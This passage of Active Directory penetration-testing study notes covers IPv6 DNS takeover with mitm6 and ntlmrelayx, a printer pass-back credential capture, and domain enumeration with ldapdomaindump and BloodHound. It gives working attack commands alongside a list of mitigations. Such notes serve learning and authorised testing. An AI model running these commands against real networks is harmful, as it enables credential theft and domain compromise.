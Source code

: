 ### Initial Attack - IPv6 Attacks
- It's another form of relaying attack but sometimes SMB Relay password hash is not trackable, using IPv4, IPv6 is disbaled.
- Set up an IPV6 DNS resolution and get a request it will share to DC, Whenever the request comes it comes to us.(IPv6 -> DNS setup by us <-> DC)
- A
```powershell
sudo mitm6 -d ashok.local # RUn this first d for  Domain name
ntlmrelayx.py -6 -t ldaps://IP -wh path.ashok.local -l lootme # When ever the the event occurs and user logins, reboots we get the hash.
#lootme folder hash different files to investigate, check for the description and .html files easy access.
```
- Mitigations
  * Inbound Core Networking DHCP for IPv6
  * Inbound core networking ROuter Advertisement
  * Outbound Core networking DHCP for IPv6
  * If not using WPAD disable that
  * Enable LDAP signing and LDAP channel binding
  * Administrative users to protected group via delegation.

 ### Initial Attack - Password Attacks
 [How to Hack Through a Pass-Back Attack: MFP Hacking Guide](https://www.mindpointgroup.com/blog/how-to-hack-through-a-pass-back-attack/)
 - Sometimes the printers have IP set default, change IP to KALI IP address the run the responder to get the hash, netcat on port 389


## Post-Compromise Enumeration
- If you have a valid user account we can move forward.
- Tools we going to see Bloodhound, Plumhound, Ldapdomaindump, PingCastle, etc.

### Ldapdomaindump - Domain Enumeration 
- Trying to retrieve the information about the Active Directory similar to bloodhound.
```powershell
sudo ldapdomaindump ldaps://IP -u 'domain/username' -p 'password'
# It will generate .html, and .json extension files.
```
### Bloodhound - Domain Enumeration 
It will try to retrieve data that can give Visualize Active Directory information about Users, groups, and Domain Admins. We can perform trust attacks and relay attacks from Bloodhound.
```powershell
#Before that you need to start the neo4j for the Browser session
sudo neo4j start
sudo bloodhound
# Collect the data from the target. ns for nameserver will be Domain Controller.
sudo bloodhound-python -d domain.local -u username -p password -ns 192.168.138.136  -c all
# It will generate .json extension files and upload data into Bloodhound GUI to get the structure of Active Directory.
```
